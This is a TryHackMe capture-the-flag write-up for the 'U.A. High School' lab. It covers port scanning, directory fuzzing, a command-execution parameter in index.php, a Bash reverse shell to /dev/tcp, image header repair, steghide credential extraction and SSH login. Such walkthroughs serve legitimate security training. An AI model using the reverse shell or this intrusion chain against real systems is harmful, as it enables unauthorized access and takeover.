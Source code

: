 # TryHackMe - U.A. High School

We start with our nmap scan which just reveals an SSH and HTTP server running.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 07:00 EDT
Nmap scan report for 10.10.42.185
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```

We begin to enumerate the HTTP server by running feroxbuster which reveals the assets subdirectory.&#x20;

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Feroxbuster doesn't reveal any further details which is where we'll bring GoBuster in for the fine tuning, we'll configure our scan to search for specific file types which gives us a hit for "index.php"

```
gobuster dir -u 10.10.42.185/assets -w /usr/share/wordlists/dirb/common.txt -x php,txt,js,css,zip
```

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This just appears to be an empty PHP file to the client, but since PHP code is executed server side there may be something that is happening behind the scenes that we can't see. Curious to see if there is anything we can pass to this, we utilise wfuzz which should find any endpoints of usage, and we'll also specify the wordlist to be the "common.txt" wordlist which is stored in the following location, on a default Kali install.

```
/usr/share/seclists/Discovery/Web-Content/common.txt
```

We're going out on a limb and try to read the `/etc/passwd` file on the machine and we get a hit with the "cmd" parameter.

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

So we have code execution! Amazing, let's get a shell. We try a Netcat shell but don't appear to have a binary on the box, so decide to craft our own shell. We make a simple Bash reverse shell:

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.8.61.246/9999 0>&1'
```

Run our first command to download the binary onto the box and store it in the tmp directory, which we can assume we have write access in.

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We double check to ensure it's saved, which we can confirm through the output from the website, which is Base64 encoded.

<figure><img src=".gitbook/assets/0kDwX7EBOB.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/bl1M1Cq18Q.png" alt=""><figcaption></figcaption></figure>

We make our binary executable iwth `chmod +x /tmp/shell.sh` and then run it with `bash /tmp/shell.sh` which gets us a reverse shell as www-data.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

When on the box we find two images in the images folder that we'd found through our enumeration then begin working backwards, eventually finding another folder, "Hidden\_Content" in `/var/www` which we find another Base64 encoded flag in. Decoding it gives us some kind of password..

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We remain curious about the images we found earlier so downlaod them onto the system and see whether there's some kind of Steganography in them. We find nothing of interest in "yuei.jpg" and find that "oneforall.jpg" isn't supported, which seems to imply there's something corrupt with the file. We inspect the structure of the file and see it's configured to be a PNG file, so correct with this with the appropriate file signature.

```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```

<figure><img src=".gitbook/assets/jttPqhkBeb.png" alt=""><figcaption></figcaption></figure>

We can see that our file changes from a "data" file to a complete JPEG file, indicating it is back to its restored state.

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We run steghide extract with our credentials and get "creds.txt"

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

We take these creds and SSH into the box which gives us user!

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

